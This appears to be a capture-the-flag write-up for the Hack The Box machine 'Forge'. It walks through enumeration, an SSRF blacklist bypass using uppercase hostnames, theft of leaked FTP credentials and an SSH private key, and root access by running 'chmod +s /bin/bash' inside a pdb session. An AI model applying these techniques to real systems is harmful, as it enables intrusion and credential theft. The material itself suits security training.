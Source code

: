 ## Enumeration

`nmap -A 10.10.11.111`

```bash            
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-27 10:01 EST
Nmap scan report for 10.10.11.111 (10.10.11.111)
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://forge.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web

We find a upload functionality for images. Since the server runs and checks the image type to correctly display images, a known way to bypass this is to embed the payload to an actual image. Trying this trick didn't work for me so I moved on.

## Host Enumeration
```bash
ffuf -w /usr/share/SecLists/Discovery/DNS/shubs-subdomains.txt -u http://forge.htb/ -H “Host: FUZZ.forge.htb” -t 200 -fl 10
```

```bash
admin [Status: 200, Size: 27, Words: 4, Lines: 2]
```

Visiting the subdomain we get a text "Only localhost is allowed! ".

Back to the `forge.htb` endpoint we use the "Upload from url" functionality and try to access the `admin.forge.htb` subdomain. However we get a text response "URL contains a blacklisted address!". To bypass this we use the url with all caps `http://ADMIN.FORGE.HTB`.

Since there's no image that we can view on the subdomain we get the same message as before. However using `curl` to this link `curl http://forge.htb/uploads/R7Dl5h466PkWBgNjh0mx` we get to bypass and directly read information on the admin index panel.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```  

There we find the path `/announcements`. We use the same methodology to curl this location.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html> 
```

Now we have disclosed ftp creds user:heightofsecurity123! and information on how to use them with the "upload from url" functionality.
```bash
http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB
```

Now curl the given path like before `curl http://forge.htb/uploads/ZEx8iXtaA8u4avWu8HBM`

```html
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Dec 27 07:36 user.txt
```

Now it seems that we are in the user directory and we know that ssh is open so will try to get the user's id_rsa next.

With the same methodology upload this `http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/.ssh/id_rsa` and curl the response.

Now we can connect to user `ssh user@forge.htb -i id_rsa`

## Privilege Escalation

```bash
sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

The contents of the script

```bash
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()

```

Ok so running this script on the current session we'll listen on a random port on localhost. Then we can connect to the port on the localhost from another ssh session and provide the clear-text admin password. From there we need to send wrong input to launch the python debugger on the first ssh session and run commands on it. Commands to run:

```bash
import os
os.system('chmod +s /bin/bash')
exit
```

Now we can elevate to root with `bash -p`
